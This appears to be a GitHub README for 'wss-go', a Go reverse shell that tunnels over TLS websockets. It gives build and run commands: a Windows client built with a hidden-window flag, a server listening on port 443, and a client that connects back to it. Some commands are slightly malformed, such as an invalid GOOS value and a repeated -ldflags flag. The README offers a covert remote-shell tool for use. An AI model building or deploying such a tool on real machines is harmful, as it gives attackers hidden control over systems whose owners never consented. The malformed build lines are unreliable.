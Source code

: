 # wss-go
reverse websocket with ssl shell using golang.<br />
wss-go is a reverse shell using websocket with tls.<br />

## Usage
### Windows
```shell
go env -w GOOS=windows
go build -o wssServer server/server.go
go build -o wssClient -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```
### Screenshots
![](images/serverMac.png)
![](images/clientMac.png)
### MacOS & Linux
```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```
### Screenshots
![](images/serverWindows.png)
## TODO
- RSA & AES
